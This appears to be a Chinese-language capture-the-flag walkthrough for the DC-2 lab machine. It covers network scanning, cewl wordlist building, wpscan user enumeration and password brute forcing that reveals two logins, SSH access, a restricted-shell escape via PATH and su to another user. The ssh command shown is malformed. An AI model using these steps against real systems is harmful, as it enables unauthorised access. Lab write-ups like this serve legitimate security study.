 ### 扫描地址
```
┌──(kali㉿kali)-[~]
└─$ sudo arp-scan -l
[sudo] password for kali:
Interface: eth0, type: EN10MB, MAC: 00:0c:29:ae:51:81, IPv4: 192.168.7.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.7.1     00:50:56:c0:00:08       (Unknown)
192.168.7.2     00:50:56:e4:2a:ab       (Unknown)
192.168.7.129   00:0c:29:9e:63:89       (Unknown)
192.168.7.254   00:50:56:e7:52:95       (Unknown)
```

得到地址后

```
┌──(kali㉿kali)-[~]
└─$ nmap 192.168.7.129 -p 1-65535
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-05 09:19 EDT
Nmap scan report for 192.168.7.129
Host is up (0.00070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 00:0C:29:9E:63:89 (VMware)
```

`80`端口发生``302``跳转 http://dc-2/
手动`hosts`添加后进入web
提示可以使用[[cewl]]
`7744` 不知道是啥
丢进浏览器也不是web

[[cewl]]是一个字典生成器，它从指定url读取字符串

```
cewl http://dc-2/ >> 11.txt
```


[[dirsearch]]

```
dirsearch -u http://dc-2/
dirsearch -u 192.168.7.129
```

看到了wp

[[wpscan]]

### 枚举用户

```
wpscan --url http://dc-2/ -e u
```

##### 几个用户名建txt丢进去

```
admin
jerry
tom
```

### 与[[cewl]]得到的字典组合

```
wpscan --url http://dc-2/ -U user.txt -P 11.txt
```

```
[!] Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```

```
http://dc-2/wp-admin
```
### 登录后可以看到flag2


### 使用ssh登录tom

```
ssh tom@ -p192.168.7.129 7744
```

### 添加PATH使用更多命令

```
export PATH=/bin:$PATH
```

### 由此查看flag3

```
tom@DC-2:~$ su jerry
jerry@DC-2:~$ ls
flag4.txt
```

### 得到flag4

```
jerry@DC-2:~$ cat flag4.txt
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).

No hints here - you're on your own now.  :-)

Go on - git outta here!!!!
```
